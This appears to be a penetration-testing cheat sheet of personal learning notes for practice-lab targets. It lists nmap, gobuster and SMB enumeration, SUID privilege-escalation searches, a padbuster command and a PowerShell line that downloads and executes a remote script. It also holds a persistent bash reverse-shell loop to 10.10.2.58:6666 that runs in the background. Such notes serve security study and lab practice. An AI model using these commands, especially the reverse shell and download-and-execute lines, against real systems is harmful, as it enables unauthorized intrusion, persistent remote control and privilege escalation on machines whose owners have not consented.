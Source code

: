 # Penetration Testing Cheat Sheet
Captured learning notes

## Follow redirects
```bash
wget --delete-after url 2>&1 | grep Location:
curl -v -L http://picasaweb.google.com 2>&1 | egrep "^> (Host:|GET)"
```

## Port scanning
```bash
nmap 10.10.10.150 -p-
nmap -sC -sV 10.10.150 -p80 -oA scan
```

## Web scan enumeration
```bash
dirhunt 10.10.10.150
gobuster -u 10.10.10.150 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

## Discover SMB shares
```bash
nmb lookup -A 10.10.10.150
smbclient -L \\fqdn -I 10.10.10.150 -N
```

## TTY/PTY
```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```

## Export $PATH
```bash
export PATH=​$PATH​:/bin:/sbin:/usr/bin:/usr/sbin:/usr/​local​/bin:/usr/​local​/sbin
```

## Privilege Escalation with SUID
[Linux Privilege Escalation using SUID Binaries](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/)
```bash
find / -perm -u=s -type f 2>/dev/null
```
[Linux PrivEsc: Abusing SUID](https://www.gracefulsecurity.com/linux-privesc-abusing-suid/)
```bash
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```

Find files not owned by user
```bash
find / -writable ! -user `whoami` -type f ! -path "/proc/*" ! -path "/sys/*" -exec ls -al {} \; 2>/dev/null
```

Find files owned by user
```bash
find / -writable -user `whoami` -type f ! -path "/proc/*" ! -path "/sys/*" -exec ls -al {} \; 2>/dev/null
```

Find hidden files
```bash
find / -name ".*" -type f ! -path "/proc/*" ! -path "/sys/*" -exec ls -al {} \; 2>/dev/null
```

## Download Methods
### PowerShell
```powershell
IEX(New-Object Net.WebClient).downloadString('https://10.10.10.150:80/script.ps1')
powershell "(New-Object System.Net.WebClient).downloadFile('http://10.10.10.150:8000/file.exe','file.exe')"
```

## Padbuster
```bash
padbuster http://10.10.10.150 string # -cookies auth=string -encoding 0
```

## Decode/Decrypt
```bash
echo string | base64 --decode
```

## msfvenom
[Creating Metasploit Payloads](https://netsec.ws/?p=331)

## Reverse shell loop
```bash
while true; do sleep 25 && bash -i >& /dev/tcp/10.10.2.58/6666 0>&1; done 2>/dev/null &
```

## Connect to pop3
```bash
openssl s_client -connect 10.10.10.150:995
```
